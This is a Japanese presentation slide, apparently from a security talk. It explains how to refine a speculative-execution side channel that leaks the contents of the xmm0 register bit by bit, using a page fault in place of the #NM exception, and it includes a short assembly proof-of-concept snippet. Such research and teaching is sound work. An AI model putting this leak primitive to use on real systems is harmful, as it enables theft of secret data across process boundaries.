

# コンセプトコードの改良
前ページの方法では#NM例外が発生するとxmm0の中身がクリアされてしまう
#NM例外ではなく#PF（page fault）を発生させる

#PFが発生するためmovq rax, xmm0で#NM例外は発生しない
xmm0の中身がクリアされない
しかし投機実行でxmm0の最下位bitは判別可能
movq rax, xmm0 / shr rax, 1 / and rax, 1とshiftを挟めば次のbitも判別可能...を繰り返す
movq dword [0], 0 // #PF
movq rax, xmm0
and  rax, 1
shl  rax, 6
mov  dword [mem + rax], 0
    9 / 10